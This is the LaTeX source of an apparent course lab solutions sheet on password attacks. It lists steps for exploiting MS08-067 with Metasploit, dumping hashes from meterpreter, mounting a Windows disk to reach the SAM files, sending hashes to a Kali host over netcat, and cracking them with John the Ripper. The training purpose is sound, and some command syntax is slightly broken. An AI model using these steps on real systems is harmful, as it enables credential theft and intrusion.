	
\includegraphics{NetworkDiagram.png}
	\caption{Network Diagram}
	\label{Network Diagram}
\end{figure}
\pagebreak



\textbf{Solutions:}



\begin{itemize}
	\item Task1: Getting Password Hashes Remotely
			\begin{itemize}
			
			\item Windows/smb/ms08\_067\_netapi
			\item 	Type hashdump 
			\item 	To run the smart hashdump script from meterpreter use, \linebreak meterpreter \code>run post/windows/gather/smart hashdump
		\end{itemize} 
	\item Challenge 1: Offline Password Attacks
			\begin{itemize}
				\item  john passworddump.txt --wordlist = rockyou.txt
			\end{itemize}
	
	\item Activity 1: Physical Access
		\begin{itemize}
			\item Login into windows 7 and create multiple user accounts
			\item Restart and boot from CD-ROM
			\item Select forensic mode
			
		\end{itemize}
	\item Activity 2: Physical Access 2
		\begin{itemize}
			\item mkdir -p/mnt/sda2
			\item mount /dev/sda2 /mnt/sda2
			\item cd /mnt/sda2/windows/system32/config
			
		\end{itemize}
	\item Challenge 2: Saving windows7 hashes
		\begin{itemize}
			\item -	nc -l -p \code<portnumber\code> \code<filename.txt\code>
			\item samdump2 SYSTEM SAM \code| nc -w 3 \code<IP of kali\code>  \code<Port\code>
		\end{itemize}
	\item Challenge 3: Offline Password Attack2
		\begin{itemize}
			\item samdump2 SYSTEM SAM \code-o out
			\item john --format \code= NT 
		\end{itemize}
	
\end{itemize}

\textbf{Questions}

\begin{itemize}

	\item The difference between a hash with salt and without salt is its complexity. Because a strong password with random data appended to it is going to make the work of extracting information really tough even when your hash is exposed.
	\item This is kind of a trick question. Either can really be faster in a minute. In password cracking, a minute doesn't really matter. You have to find the best solution that fits your time and computational resource needs. For example, a good wordlist can quickly find common passwords, but incremental mode can be more effective at solving a random password, given enough time and resources. \\
	\item Yes. For the really tough ones, all you need is massive amounts of time and computing resources.
\end{itemize}	

\pagebreak	
\textbf{Changelog:}
\label{changelog}
\vspace{6mm}


\begin{tabular}{ |p{1cm}|p{3cm}|p{3cm}|p{5cm}|  }
\hline
\multicolumn{4}{|c|}{Password (In)security: Attacks \& Prevention} \\
\hline
\texttt{Ver.} & \texttt{Date} & \texttt{Authors} & \texttt{Changes} \\
\hline
v1 & March 08th 2017 & Harika Vadapalli and Nicholas Valenti & Modified slides and added several new slides. Problem Description is modified. New real world examples in slide two and Salting technique was added. Added slides on LM and NTLM hashes, Password Cracking attacks, security guidelines,Types in attacks. Slides on John Thr Ripper were modified from previous tutorial. Added new challenges and tasks. Linux description was modified from previous one and added new slides about Rainbow tables, hashcat and pass-the-hash by us.  \\
\hline
v1.1 & May 30th 2018 & Ananth Jillepalli & Updated network diagram \\
\hline 
\end{tabular}

% bibliography on last page
\pagebreak
% this style of bibliography shows urls
\bibliographystyle{IEEEtran}

\begin{thebibliography}{9}

\bibitem{frampton}
	Frampton, S.
	\textit{Linux Password \& Shadow File Formats}.
	Linux Administration Made Easy.
	\url{http://www.tldp.org/LDP/lame/LAME/linux-admin-made-easy/shadow-file-formats.html}.

\bibitem{john}
	Openwall.
	\textit{John the Ripper usage examples}.
	\url{http://www.openwall.com/john/doc/EXAMPLES.shtml}
	
\bibitem{yahoo}
Vindu Goel and Nicole Perlroth.
\textit{Yahoo Says 1 Billion Accounts Were hacked.}
\url{https://www.nytimes.com/2016/12/14/technology/yahoo-hack.html?_r=1}

\bibitem{github}
Swati Khandelwal.
\textit{Github accounts Hacked in 'Password reuse attack'}.
\url{http://thehackernews.com/2016/06/github-password-hack.html}


\bibitem{group}
Lucian Constantin.
\textit{Critical vulnerability in Group Policy puts Windows computers at risk.}
\url{http://www.computerworld.com/article/2883152/critical-vulnerability-in-group-policy-puts-windows-computers-at-risk.html}

\bibitem{gp}
Hwong, Jenko.
\textit{Group Policy Security Risks and Best Practices}
\url{https://www.giac.org/paper/gsec/4138/group-policy-security-risks-practices/104227}

\bibitem{msdn}
Microsoft Corporation
\textit{The Importance of Using Strong Passwords}.
Hot for Security.
\url{https://msdn.microsoft.com/en-us/library/ms851492(v=winembedded.11).aspx}.
\date{2006}.

\bibitem{strongpass}
Hoffman, C.
\textit{How to Create a Strong Password (and Remember It)}.
How-To Geek
\url{http://www.howtogeek.com/195430/how-to-create-a-strong-password-and-remember-it/}.
\date{May 2015}.

\bibitem{passmanager}
Johnson, D.
\textit{How secure are password managers?}.
\url{http://www.cbsnews.com/news/in-wake-of-lastpass-hack-how-safe-are-password-managers/}.
\date{June 2015}.

\bibitem{john}
John the Ripper
\textit{John the Ripper Documentation}.
\url{http://www.openwall.com/}.

\bibitem{rockyou}
Skull Security.
\textit{Passwords}.
rockyou.txt.
\url{https://wiki.skullsecurity.org/Passwords}.

\bibitem{cheat}
Count Upon Security
\textit{JTR CHEAT SHEET}.
\url{https://countuponsecurity.files.wordpress.com/2015/06/jtr-cheat-sheet.pdf}.

\bibitem{LMHash}
\textit{Microsoft LAN Manager Hash}.
\url{https://en.wikipedia.org/wiki/LM_hash}.

\bibitem{rainbowcrack}
\textit{Project RainbowCrack}
\url{http://project-rainbowcrack.com/index.htm}

\bibitem{book}
Weidman, Georgia. \textit{Penetration testing: a hands-on introduction to hacking}. No Starch Press, 2014.

\bibitem{ars}
Goodin, D.
\textit{How Crackers Make Minced Meat Out of your Passwords}.
Ars Technica.
\url{http://arstechnica.com/security/2013/05/how-crackers-make-minced-meat-out-of-your-passwords/1/}.
\date{May 2013}.

\bibitem{command}
Openwall.
\textit{John the Ripper's command line syntax}
\url{http://www.openwall.com/john/doc/OPTIONS.shtml}

\bibitem{nonce}
Cryptographic Nonce.
\url{https://en.wikipedia.org/wiki/Cryptographic_nonce}

\bibitem{hashcat}
Hashcat.
\url{https://en.wikipedia.org/wiki/Hashcat}

\bibitem{passthehash}
Pass The Hash.
\url{https://en.wikipedia.org/wiki/Pass_the_hash}

\bibitem{hashcat1}
OCCUPYTHEWEB.
\textit{How to Crack Passwords, Part 3 (Using Hashcat)}
\url{https://null-byte.wonderhowto.com/how-to/hack-like-pro-crack-passwords-part-3-using-hashcat-0156543/}

\bibitem{linkedin}
LinkedIn Hack.
\textit{Another Day, Another Hack: 117 Million LinkedIn Emails And Passwords}
\url{https://motherboard.vice.com/en_us/article/another-day-another-hack-117-million-linkedin-emails-and-password}

\bibitem{oslo}
Naked Security News.
\textit{Windows passwords: “Dead in Six Hours” – paper from Oslo password hacking conference}
\url{https://nakedsecurity.sophos.com/2012/12/17/windows-passwords-dead-in-six-hours-paper-from-oslo-password-hacking-conference/}

%example biblio entry
\iffalse
\bibitem{Winkler15}
    Winkler, I.
    2015
    \textit{The 'Sophisticated Attack' Myth}\\
    ComputerWorld, The Internet, 2015.
\fi 

\end{thebibliography}


\end{document}